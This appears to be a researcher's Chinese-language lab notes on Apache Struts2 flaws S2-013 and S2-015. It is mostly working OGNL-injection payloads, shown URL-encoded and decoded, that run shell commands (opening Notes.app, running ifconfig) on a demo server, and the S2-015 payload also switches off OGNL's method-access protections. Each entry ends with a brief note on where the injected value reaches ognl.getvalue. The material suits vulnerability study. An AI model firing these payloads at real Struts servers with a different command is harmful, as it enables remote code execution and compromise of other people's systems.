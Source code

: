 
## s2-013

### payload
```properties
# 解码前
http://www.glassy.com/Struts2Demo_war_exploded/hello.jsp?fakeParam=%25%7b%23a%3d(new+java.lang.ProcessBuilder(new+java.lang.String%5b%5d%7b%22%2fbin%2fbash%22%2c+%22-c%22%2c+%22open+%2fApplications%2fNotes.app%2f%22%7d)).start()%7d

# 解码后
http://www.glassy.com/Struts2Demo_war_exploded/hello.jsp?fakeParam=%{#a=(new+java.lang.ProcessBuilder(new+java.lang.String[]{"/bin/bash",+"-c",+"open+/Applications/Notes.app/"})).start()}
```

### injection
```js
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/bash", "-c", "open+/Applications/Notes.app/"})).start()}
```

### result
* 计算标签中action路径时，会把参数值带入 ognl.getvalue
* 长亭的检测结果与注入漏洞成因无关


## s2-015

### payload
```properties
# 解码前
http://www.glassy.com/Struts2Demo_war_exploded/%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23m.setAccessible%28true%29%2C%23m.set%28%23_memberAccess%2Ctrue%29%2C%23q%3D@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ifconfig%27%29.getInputStream%28%29%29%2C%23q%7D.action

# 解码后
http://www.glassy.com/Struts2Demo_war_exploded/${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ifconfig').getInputStream()),#q}.action
```

### injection
```js
#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ifconfig').getInputStream())
```

### result
* 与 s2-013 相同，计算重定向url的时候会把action的值放入 ognl.getvalue
* 长亭的检测结果与注入漏洞成因无关
